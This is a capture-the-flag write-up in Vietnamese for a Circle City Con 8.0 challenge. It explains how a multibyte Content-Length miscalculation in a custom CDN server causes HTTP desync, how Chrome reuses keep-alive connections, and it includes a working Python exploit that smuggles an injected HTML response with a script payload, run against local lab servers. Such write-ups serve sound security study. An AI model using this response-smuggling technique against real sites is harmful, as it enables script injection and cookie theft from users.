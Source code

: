 Một challenge rất hay do `qxxxb` viết trong giải `Circle City Con 8.0` vào năm 2020, thông qua challenge này đã giúp mình hiểu hơn về HTTP desync và browser, cùng vào bài nào

## Goal bài và trở ngại
- Bài gồm 1 frontend server và 1 CDN server chứa các notes do user tải lên. CDN chứa 1 endpoint để get flag nhưng cần có token đúng
- Ta cần tìm ra cách để lấy được token do bot nắm giữ, token này nằm trong cookie của bot khi nó visit các note của ta
- Các note tải lên được lưu vào file và không thông qua hàm encode/sanitize nào tuy nhiên khi trả về từ CDN thì `Content-Type` luôn là `plain/text` do đó không thể XSS trực tiếp

## HTTP Desync
Tại `notes.py` là source code của CDN server, server này được tác giả implement từ raw TCP, đọc đến hàm `send_file` nơi xử lý việc trả về các notes cho user ta sẽ thấy một bug có thể lead đến HTTP desync:
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/d6cf50ea-d598-4fb4-a454-9352d209de91)

Hàm `http_header` sẽ prepare phần header cho response:
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/7f1d20e1-9bd1-4b91-9ec5-9bc98da0b06b)

Để ý thấy trong header thì length của message được lấy sau khi convert lại từ bytes về string, nhưng khi đem message đi chia thành các chunk thì lại dùng message ở dạng `bytes`, nghĩa là nếu ban đầu message chứa các multibytes unicode thì chắc chắn length khi decode về string sẽ ít hơn so với khi gửi => **HTTP Desync**
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/ace4d6b9-9f82-4d5e-881a-8f87f322340d)

Vậy ta có thể inject thêm 1 response về response gốc của server CDN, vậy ta có thể làm gì với lỗi này?

## Chrome implementation
Chrome có hỗ trợ parallel connection, bằng chứng là khi truy cập vào web ta sẽ thấy nhiều tài nguyên được load cùng lúc, ví dụ như `favicon.ico`, `styles.css`, `main.js` sẽ được load cùng lúc chứ không tuyến tính. Tuy nhiên số tài nguyên được load cùng lúc lại bị giới hạn lại, với mỗi domain thì chrome sẽ chỉ cho phép **6** parallel connection.

Để tiết kiệm tài nguyên, chrome sẽ không luôn luôn khởi tạo 1 TCP connection mới để load resource, mà sẽ check xem có TCP connection nào có thể reuse được không bằng cách kiểm tra `Connection` header, nếu mang giá trị `keep-alive` thì chrome sẽ biết connection này có thể reuse được và tiếp tục fetch resource thông qua tcp connection này.

Như ta thấy thì trong response header của cdn sẽ luôn có `Connection: keep-alive`, vậy liệu ta có thể kết hợp bug HTTP desync ta có và Chrome implementation lại hay không? 

## Exploitation idea
Vì đặc điểm của CDN server là nó sẽ chia response thành các chunk dài 1448 bytes và sleep 0.1s sau mỗi lần gửi, nên ta có thể tạo 1 note chứa payload khiến response bị split ra, 5 note còn lại sẽ khiến cho cả 6 connection bị lock, ngay khi connection của evil note ta tạo ban đầu load xong n bytes đầu tiên, nó sẽ tiếp tục reuse connection để load tiếp các bytes chứa phần response mà ta đã inject vào

Anatomy:
```
-----------------------------------------------------------
admin bot -------------------------------> frontend
admin bot --------------node#0-----------> CDN ( finish in ns )
admin bot --------------node#1-----------> CDN ( finish in n+xs )
admin bot --------------node#2-----------> CDN ( finish in n+xs )
admin bot --------------node#3-----------> CDN ( finish in n+xs )
admin bot --------------node#4-----------> CDN ( finish in n+xs )
admin bot --------------node#5-----------> CDN ( finish in n+xs )
admin bot --------------node#6-----------> CDN (reuse connection of node#0, fetch malicious response)
-----------------------------------------------------------
```

Chrome bắt buộc các HTTP response phải nằm trong các TCP chunk khác nhau, do đó ta sẽ phải canh chỉnh để khiến HTTP response align đúng theo quy tắc này:
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/5dd87041-3d0c-41f1-a7d7-efbc51ece7fa)

Ở đây ký tự `¡` sẽ chiếm 2 byte, ta sẽ pad 1448 byte `¡` và 1448 byte bao gồm (payload + padding) với cách craft trên thì `Content-Type` mà chrome nhận được sẽ là `2896`, thấp hơn nhiều so với length của response thực tế, bằng cách này thì `2896` bytes mà chrome đọc sẽ chỉ đến cuối của phần padding 1448 byte `¡`, phần padding "AAAA..." phía sau là để nâng length của response lên đúng bằng cuối phần padding chữ `¡` ban đầu, và response tiếp theo mà chrome fetch từ connection lúc nãy sẽ là response mà ta inject vào

```py
import requests 

def create_note(content, id):
    burp0_url = "http://localhost:3100/board/add_note"
    burp0_json={"body": content, "id": id}
    return "http://localhost:3101/" + id + "/" + requests.post(burp0_url, json=burp0_json).text.replace("\"", "")

    
def create_evil_note(id, script = "<script>alert()</script>"):
    
    payload = f"""HTTP/1.1 200 OK\r
Content-Type: text/html\r
Content-Length: {len(script)}\r
\r
{script}"""

    payload_len = 1448 
    payload = payload + "A" * (payload_len - len(payload))

    ans = "¡"*1448 + payload 
    create_note(ans, id)

def fill_5_other_connection(id):
    for _ in range(5):
        create_note("😍"*(1448*10), id)


def exploit():
    res = requests.get("http://localhost:3100/create_board", allow_redirects=False)
    id = res.headers['location'][len("/board/"):]
    
    payload = "<script>alert(origin)</script>"

    create_evil_note(id, payload)
    fill_5_other_connection(id)
    create_note("a", id)

    print("payload at: " + id)

exploit()
```
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/c5a149a6-4c9a-45a2-8b4d-8b737cdb5122)

![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/747bc2b0-67a2-4943-9350-1fb2d258ac53)



